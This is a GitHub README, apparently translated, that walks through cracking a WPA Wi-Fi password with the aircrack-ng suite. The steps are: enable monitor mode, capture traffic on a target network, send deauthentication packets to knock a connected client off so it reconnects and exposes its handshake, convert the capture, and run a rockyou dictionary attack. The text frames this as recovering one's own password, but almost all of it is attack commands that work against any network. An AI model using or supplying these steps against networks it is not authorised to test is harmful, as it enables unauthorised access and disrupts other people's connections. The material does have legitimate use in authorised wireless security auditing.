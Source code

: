 # FILM

[![Watch the video](https://img.youtube.com/vi/p_kWb7se5cQ/maxresdefault.jpg)](https://youtu.be/p_kWb7se5cQ)

# TUTORIAL

1) Enable listening via the network adapter

``` airmon-ng start wlan0 ```

1) We now have a new card name:

``` wlan0mon ```

2) Listen to networks nearby and find yours:

``` airodump-ng wlan0mon ```

3) When you see your network stop listening and copy the bssid, and
channel:

``` airodump-ng wlan0mon --bssid MAC -c CHANNEL [e.g. 6] ```

4) When you see that it is only listening to this network and everything works
we can take action.

Stop and add to the command:

``` -w NAME ```

This will print everything that happens during the file with the given name
listening. We'll need this to take over the .cap file

5) We are looking for MACs of currently connected devices to the router. We copy it and bssid to
the next command.

6) With listening enabled, we perform:

```
 aireplay-ng -a BSSID_MAC -c CLIENT_MAC --deauth 40 wlan0mon
```

Packets will be sent to the client that disconnect him for a moment from the network,
so that he would have to connect to it again automatically.

7) After a while, we stop the attack and look if in the previous console where
we were listening, the following message appeared:

``` WPA handshake ```

If so, we turn off listening. If we don't repeat.

8) The card in the listening mode will no longer be useful to us, so we can turn it off and
go back to the previous version:

``` airmon-ng stop wlan0mon ```

Now you can use the Internet on your computer again;)

9) We proceed to change the .cap file to -> .hccapx

We will use the aircrack tool for this. You can break it with others that may
such options, e.g. hashcat.

Option:

``` -j ```

He will help us in exchange.

10) Enter:

``` aircrack-ng -j OUTPUT_NAME NAME.cap ```

After a while, you should see the file named after the parameter
-j.

11) We approach password recovery. For this we will need some
dictionary we can use some of the e.g. kali system.

``` aircrack-ng NAME.hccapx -w /usr/share/wordlists/rockyou.txt [dictionary] ```

If he finds our password in the dictionary, I will show it to us.

12) Good luck with your recovery!
